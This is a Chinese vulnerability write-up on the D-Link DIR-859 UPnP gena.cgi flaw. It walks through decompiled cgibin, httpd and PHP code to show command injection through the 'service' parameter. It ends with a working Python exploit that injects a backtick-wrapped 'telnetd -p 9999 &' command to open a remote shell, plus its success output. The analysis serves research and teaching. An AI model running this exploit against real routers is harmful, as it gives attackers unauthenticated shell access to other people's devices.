


# DIR859_upnp

固件：[DIR859Ax_FW105b03.bin](https://github.com/nightRainy/router_Firmware_collection/blob/master/DLINK/DIR-859/DIR859Ax_FW105b03.bin)

dir859   LF 32-bit MSB executable, MIPS, MIPS32 rel2

---


# 漏洞分析

漏洞在cgibin中的函数genacgi_main


genacgi_main
```
int genacgi_main()
{
  const char *v0; // $s5
  char *v1; // $s7
  char *v2; // $s3
  char *v3; // $s0
  char *v4; // $s2
  char *v5; // $s1
  char *v6; // $s6
  int v7; // $v0
  int v8; // $a0
  int v9; // $s4
  int v10; // $v0
  char *v11; // $a0
  const char *v12; // $s0
  int v13; // $v0
  char *v14; // $v0
  char *v15; // $s1
  __pid_t v16; // $v0
  __pid_t v17; // $v0
  int v18; // $v0
  int v19; // $v1
  int v20; // $v0
  const char *v21; // $s2
  char *v22; // $v0
  char *v23; // $s0
  int v24; // $s2
  char *v25; // $s1
  char *v26; // $v0
  char *v27; // $v0
  char *v28; // $s0
  const char *v29; // $s0
  char v31[512]; // [sp+10h] [-464h] BYREF
  int v32; // [sp+210h] [-264h]
  int v33; // [sp+214h] [-260h]
  int v34; // [sp+218h] [-25Ch]
  int v35; // [sp+21Ch] [-258h]
  char v36[516]; // [sp+258h] [-21Ch] BYREF
  int v37; // [sp+45Ch] [-18h]
  int v38; // [sp+460h] [-14h]
  int vars0; // [sp+474h] [+0h]
  int vars4; // [sp+478h] [+4h]
  int vars8; // [sp+47Ch] [+8h]

  v25 = getenv("REQUEST_METHOD");
  if ( !v25 )
    return -1;
  v26 = getenv("REQUEST_URI");
  v27 = strchr(v26, 63);
  v28 = v27;
  if ( !v27 || strncmp(v27, "?service=", 9u) )
    return -1;
  v29 = v28 + 9;
  if ( strcasecmp(v25, "SUBSCRIBE") )
  {
    if ( !strcasecmp(v25, "UNSUBSCRIBE") )
    {
      v35 = vars8;
      v34 = v24;
      v33 = vars4;
      v32 = vars0;
      v21 = v29;
      if ( getenv("SERVER_ID") && getenv("HTTP_SID") && !getenv("HTTP_CALLBACK") && !getenv("HTTP_NT") )
      {
        v23 = getenv("SERVER_ID");
        v22 = getenv("HTTP_SID");
        sprintf(
          v31,
          "%s\nINF_UID=%s\nSERVICE=%s\nMETHOD=UNSUBSCRIBE\nSID=%s\n",
          "/htdocs/upnp/run.NOTIFY.php",
          v23,
          v21,
          v22);
        xmldbc_ephp(0, 0, v31, stdout);
      }
      else
      {
        cgibin_print_http_status(400, "", "");
      }
      __asm { jr      $ra }
    }
    return -1;
  }
  v38 = vars4;
  v37 = vars0;
  v0 = v29;
  v1 = getenv("SERVER_ID");
  v2 = getenv("HTTP_SID");
  v3 = getenv("HTTP_CALLBACK");
  v4 = getenv("HTTP_TIMEOUT");
  v5 = getenv("HTTP_NT");
  v6 = getenv("REMOTE_ADDR");
  if ( v2 )
  {
    v8 = 400;
    if ( v3 || v5 )
      goto LABEL_27;
    v18 = strcasecmp(v4, "Second-infinite");
    v19 = 0;
    if ( v18 )
    {
      v20 = strncasecmp(v4, "Second-", 7u);
      v8 = 400;
      if ( v20 )
        goto LABEL_27;
      v19 = atoi(v4 + 7);
    }
    sprintf(
      v36,
      "%s\nMETHOD=SUBSCRIBE\nINF_UID=%s\nSERVICE=%s\nSID=%s\nTIMEOUT=%d\nSHELL_FILE=%s/%s.sh",
      "/htdocs/upnp/run.NOTIFY.php",
      v1,
      v0,
      v2,
      v19,
      "/var/run",
      v0);
    xmldbc_ephp(0, 0, v36, stdout);
    return 0;
  }
  v7 = strcmp(v5, "upnp:event");
  v8 = 412;
  if ( v7 || !v3 )
    goto LABEL_27;
  v9 = 0;
  if ( strcasecmp(v4, "Second-infinite") )
  {
    v10 = strncasecmp(v4, "Second-", 7u);
    v8 = 400;
    if ( !v10 )
    {
      v9 = atoi(v4 + 7);
      goto LABEL_15;
    }
LABEL_27:
    cgibin_print_http_status(v8, "", "");
    return 0;
  }
LABEL_15:
  v11 = &v3[strlen(v3) - 1];
  if ( *v11 == 62 )
    *v11 = 0;
  v12 = &v3[*v3 == 0x3C];
  v13 = strncmp(v12, "http://", 7u);
  v8 = 412;
  if ( v13 )
    goto LABEL_27;
  v14 = strchr(v12 + 7, 47);
  v15 = v14;
  if ( !v14 )
  {
    v8 = 412;
    goto LABEL_27;
  }
  *v14 = 0;
  v16 = getpid();
  sprintf(
    v36,
    "%s\nMETHOD=SUBSCRIBE\nINF_UID=%s\nSERVICE=%s\nHOST=%s\nURI=/%s\nTIMEOUT=%d\nREMOTE=%s\nSHELL_FILE=%s/%s_%d.sh",
    "/htdocs/upnp/run.NOTIFY.php",
    v1,
    v0,
    v12 + 7,
    v15 + 1,
    v9,
    v6,
    "/var/run",
    v0,
    v16);
  xmldbc_ephp(0, 0, v36, stdout);
  fflush(stdout);
  v17 = getpid();
  sprintf(v36, "NOTIFY:0:sh %s/%s_%d.sh", "/var/run", v0, v17);
  xmldbc_timer(0, 0, v36);
  return 0;
}
```

首先前面是一些取值和判断的操作,也就是我们需要伪造包的结构,最终我们伪造的所有参数都会被sprintf函数传入缓冲区中,然后会被我们的xmldbc_ephp传入我们的php,我们来看下xmldbc_ephp的内容

```
int __fastcall xmldbc_ephp(int a1, int a2, const char *a3, int a4)
{
  size_t v7; // $v0

  v7 = strlen(a3);
  return sub_41420C(a1, 10, a2, a3, v7 + 1, a4);
}
```
可以看到,其中param_3即是我们的报文,而该函数先是计算了我们传入变量的长度,然后发送给了fun_0041420c,我们接下来转到这个函数

```
undefined4
FUN_0041420c(undefined4 param_1,uint param_2,undefined4 param_3,undefined4 param_4,ushort param_5,
            int param_6)

{
  int __fd;
  int iVar1;
  undefined4 uVar2;
  
  __fd = FUN_0041372c();
  uVar2 = 0xffffffff;
  if (-1 < __fd) {
    iVar1 = FUN_00413810(__fd,param_2 & 0xffff,param_3,param_4,(uint)param_5);
    uVar2 = 0xffffffff;
    if (-1 < iVar1) {
      if (param_6 == 0) {
        param_6 = stdout;
      }
      FUN_00414094(__fd,param_6);
      uVar2 = 0;
    }
    close(__fd);
  }
  return uVar2;
}
```
可以看到,在fd>-1时,我们的参数被传入了fun_00413810中,因此我们直接看该函数即可
```
int __fastcall sub_413810(int a1, __int16 a2, int a3, const void *a4, unsigned __int16 a5)
{
  ssize_t v6; // $v0
  int v8; // $v1
  ssize_t v9; // $v0
  __int16 v11[2]; // [sp+18h] [-10h] BYREF
  int v12; // [sp+1Ch] [-Ch]

  v11[0] = a2;
  v12 = a3;
  v11[1] = a5;
  v6 = send(a1, v11, 0xCu, 0x4000);
  v8 = -1;
  if ( v6 > 0 )
  {
    v9 = send(a1, a4, a5, 0x4000);
    v8 = 0;
    if ( v9 <= 0 )
      v8 = -1;
  }
  return v8;
}
```
可以看到这里通过send将我们的内容发了出去v9 = send(a1, a4, a5, 0x4000);

通过sprintf这儿，我们知道他发送给了run.NOTIFY.php


查看一下run.NOTIFY.php
```
<?
include "/htdocs/phplib/upnp/xnode.php";
include "/htdocs/upnpinc/gvar.php";
include "/htdocs/upnpinc/gena.php";

$gena_path = XNODE_getpathbytarget($G_GENA_NODEBASE, "inf", "uid", $INF_UID, 1);
$gena_path = $gena_path."/".$SERVICE;
GENA_subscribe_cleanup($gena_path);

/* IGD services */
if		($SERVICE == "L3Forwarding1")	$php = "NOTIFY.Layer3Forwarding.1.php";
else if ($SERVICE == "OSInfo1")			$php = "NOTIFY.OSInfo.1.php";
else if ($SERVICE == "WANCommonIFC1")	$php = "NOTIFY.WANCommonInterfaceConfig.1.php";
else if ($SERVICE == "WANEthLinkC1")	$php = "NOTIFY.WANEthernetLinkConfig.1.php";
else if ($SERVICE == "WANIPConn1")		$php = "NOTIFY.WANIPConnection.1.php";
/* WFA services */
else if ($SERVICE == "WFAWLANConfig1")	$php = "NOTIFY.WFAWLANConfig.1.php";


if ($METHOD == "SUBSCRIBE")
{
	if ($SID == "")
		GENA_subscribe_new($gena_path, $HOST, $REMOTE, $URI, $TIMEOUT, $SHELL_FILE, "/htdocs/upnp/".$php, $INF_UID);
	else
		GENA_subscribe_sid($gena_path, $SID,  $TIMEOUT);
}
else if ($METHOD == "UNSUBSCRIBE")
{
	GENA_unsubscribe($gena_path, $SID);
}
?>
```

根据$SERVICE来选择调用那个服务，传参给  $php,然后调用SUBSCRIBE或者UNSUBSCRIBE服务。 $SERVICE来自于url截断/  ，后面的内容。


我们查看下GENA_subscribe_new函数来自于哪里
在include "/htdocs/upnpinc/gena.php";中找到定义 

```
function GENA_subscribe_new($node_base, $host, $remote, $uri, $timeout, $shell_file, $target_php, $inf_uid)
{
	anchor($node_base);
	$count = query("subscription#");
	$found = 0;
	/* find subscription index & uuid */
	foreach ("subscription")
	{
		if (query("host")==$host && query("uri")==$uri)	{$found = $InDeX; break;}
	}
	if ($found == 0)
	{
		$index = $count + 1;
		$new_uuid = "uuid:".query("/runtime/genuuid");
	}
	else
	{
		$index = $found;
		$new_uuid = query("subscription:".$index."/uuid");
	}

	/* get timeout */
	if ($timeout==0 || $timeout=="") {$timeout = 0; $new_timeout = 0;}
	else {$new_timeout = query("/runtime/device/uptime") + $timeout;}
	/* set to nodes */
	set("subscription:".$index."/remote",	$remote);
	set("subscription:".$index."/uuid",		$new_uuid);
	set("subscription:".$index."/host",		$host);
	set("subscription:".$index."/uri",		$uri);
	set("subscription:".$index."/timeout",	$new_timeout);
	set("subscription:".$index."/seq", "1");

	GENA_subscribe_http_resp($new_uuid, $timeout);
	GENA_notify_init($shell_file, $target_php, $inf_uid, $host, $uri, $new_uuid);
}
```
这个函数的目的是根据提供的参数创建或更新一个订阅

那么漏洞在哪里呢,我们直接来看最后调用的那个函数,也就是调用了我们$shell_file的函数GENA_notify_init


```
function GENA_notify_init($shell_file, $target_php, $inf_uid, $host, $uri, $sid)
{

	$inf_path = XNODE_getpathbytarget("", "inf", "uid", $inf_uid, 0);
	if ($inf_path=="")
	{
		TRACE_debug("can't find inf_path by $inf_uid=".$inf_uid."!");
		return "";
	}
	$phyinf = PHYINF_getifname(query($inf_path."/phyinf"));
	if ($phyinf == "")
	{
		TRACE_debug("can't get phyinf by $inf_uid=".$inf_uid."!");
		return "";
	}

	$upnpmsg = query("/runtime/upnpmsg");
	if ($upnpmsg == "") $upnpmsg = "/dev/null";
	fwrite(w, $shell_file,
		"#!/bin/sh\n".
		'echo "[$0] ..." > '.$upnpmsg."\n".
		"xmldbc -P ".$target_php.
			" -V INF_UID=".$inf_uid.
			" -V HDR_URL=".$uri.
			" -V HDR_HOST=".$host.
			" -V HDR_SID=".$sid.
			" -V HDR_SEQ=0".
			" | httpc -i ".$phyinf." -d \"".$host."\" -p TCP > ".$upnpmsg."\n"
	);
	fwrite(a, $shell_file, "rm -f ".$shell_file."\n");
}
```


这里明显是写了一个临时shell，执行sh。

注意这里的shell_file 。最后有一个命令执行，回溯看这个参数是否可控。





所以这里我们只要在SHELL_FILE构造命令，可以实现命令执行。
执行的地方如下，我们只需要用反引号包命令，就可以直接执行
```
fwrite(a, $shell_file, "rm -f ".$shell_file."\n");

```


我们再理一下，参数如何从前端传递进来的。、


首先访问gena.cgi 路径，请求会提交到httpd，httpd识别出cgi后，会通过管道，将消息传递给cgibin这个二进制程序处理。

随后根据gena这个字符串判断进入genacgi_main处理。


通过v36最后将这些值传递给了run.NOTIFY.php   -> 最后到达命令执行的位置。


这里SHELL_FILE和SERVICE都是由v0控制。v0这里怀疑就是从前端传进来的service。

向上溯源

```

  v25 = getenv("REQUEST_METHOD");
  if ( !v25 )
    return -1;
  v26 = getenv("REQUEST_URI");
  v27 = strchr(v26, "?");
  v28 = v27;
  if ( !v27 || strncmp(v27, "?service=", 9u) )
    return -1;
  v29 = v28 + 9;

 。。。。。。。。

   v0 = v29;

。。。。。。。。。
  sprintf(
    v36,
    "%s\nMETHOD=SUBSCRIBE\nINF_UID=%s\nSERVICE=%s\nHOST=%s\nURI=/%s\nTIMEOUT=%d\nREMOTE=%s\nSHELL_FILE=%s/%s_%d.sh",
    "/htdocs/upnp/run.NOTIFY.php",
    v1,
    v0,
    v12 + 7,
    v15 + 1,
    v9,
    v6,
    "/var/run",
    v0,
    v16);
    
```

这里可以看到v0来自于url中的service的值，也就是getenv("REQUEST_URI")

程序是以环境变量的形式从httpd传递到cgibin的。

让我们看看httpd具体实现，以便构造payload.


httpd中

关键函数为process_cgi
关键代码如下
```
if ( sub_402748("QUERY_STRING", a1[619], 0, &ptr) == -1 )
首先读取QUERY_STRING的内容（也就是url中？后的内容）


    v47 = (char *)malloc(v46 + v45 + 2);
    v48 = v47;
    if ( !v47 )
      goto LABEL_108;
    sprintf(v47, "%s?%s", (const char *)a1[618], (const char *)a1[619]);
    v49 = sub_402748("REQUEST_URI", v48, 0, &ptr);
    sub_402748("REQUEST_URI", a1[618], 0, &ptr) == -1 )
     将取到的内容放到&ptr中


spawn(*v73, v73, ptr, v71, v66, v84, v83, a1 + 992);
这个函数会调用fork（），exec（）,开启一个子进程，并以环境变量的形式传递参数给目标程序

```


spawn函数如下
```
__pid_t __fastcall spawn(const char *a1, char *const *a2, char *const *a3, int a4, int a5, int a6, int a7, char *path)
{
  __pid_t v12; // $s0
  int v13; // $v0
  int v14; // $a0
  int v16[5]; // [sp+18h] [-14h] BYREF

  v12 = fork();
  if ( v12 == -1 )
  {
    lerror("spawn: failed to create child process");
  }
  else
  {
    if ( !v12 )
    {
      setpgid(0, 0);
      sub_40A58C(13, 0);
      if ( coredir )
      {
        v16[3] = 0;
        v16[2] = 0;
        v16[1] = 0;
        v16[0] = 0;
        setrlimit64(4, v16);
      }
      dup2(a4, 0);
      dup2(a4, 1);
      if ( a5 != -1 )
        dup2(a5, 2);
      v13 = chdir(path);
      v14 = 5;
      if ( v13 != -1 )
      {
        execve(a1, a2, a3);
        v14 = 6;
      }
      exit(v14);
    }
    ++dword_4259AC;
    if ( debug )
      log_d("child process %d created", v12);
  }
  return v12;
}
```

execve(a1, a2, a3)
```

 int execve(const char *filename, char *const argv[], char *const envp[]);

filename (a1):

这是一个指向以 null 结尾的字符串的指针，指定要执行的程序的路径。这个路径可以是绝对路径或相对路径。
argv (a2):

这是一个指向字符串数组的指针，数组中的每个元素都是一个指向以 null 结尾的字符串的指针。这个数组代表传递给新程序的命令行参数。通常，argv[0] 是新程序的名称，后面跟着传递给程序的参数。数组本身以 NULL 指针结束。
envp (a3):

这是一个指向字符串数组的指针，数组中的每个元素都是一个指向以 null 结尾的字符串的指针。这个数组代表传递给新程序的环境变量。每个环境变量都是 key=value 形式的字符串。数组以 NULL 指针结束。
```

所以httpd会取了url中？后的内容，以环境变量REQUEST_URI的形式，去调用了cgibin  


---
# 漏洞复现

FirmAE模拟
```
sudo ./run.sh -d D-link '/home/iot/Desktop/DIR859/DIR859Ax_FW105b03.bin' 
```

模拟成功


exp.py
```
import socket
import os
from time import sleep

# Exploit By Miguel Mendez & Pablo Pollanco
def httpSUB(server, port, shell_file):
    print('\n[*] Connection {host}:{port}'.format(host=server, port=port))
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "SUBSCRIBE /gena.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + "\n"
    request += "Callback: <http://192.168.0.4:34033/ServiceProxy27>\n"
    request += "NT: upnp:event\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n\n"

    print('[*] Sending Payload:')
    print(request)  # 打印请求内容

    con.connect((socket.gethostbyname(server), port))
    con.send(request.encode())
    results = con.recv(4096)
    print('[*] Received response:')
    print(results.decode())  # 打印响应内容

    sleep(1)
    print('[*] Running Telnetd Service')
    sleep(1)
    print('[*] Opening Telnet Connection\n')
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

serverInput = input('IP Router: ')  # 使用 input 而不是 raw_input
portInput = 49152
httpSUB(serverInput, portInput, '`telnetd -p 9999 &`')

```


复现成功


```
[*] Sending Payload:
SUBSCRIBE /gena.cgi?service=`telnetd -p 9999 &` HTTP/1.0
Host: 192.168.0.1
Callback: <http://192.168.0.4:34033/ServiceProxy27>
NT: upnp:event
Timeout: Second-1800
Accept-Encoding: gzip, deflate
User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50


[*] Received response:
HTTP/1.1 200 OK
Server: WebServer
Date: Mon, 27 Jun 2016 16:04:25 GMT
SID: uuid:4097C0F2-8917-F4A1-47FA-4BEB95BCB46D
TIMEOUT: Second-1800

```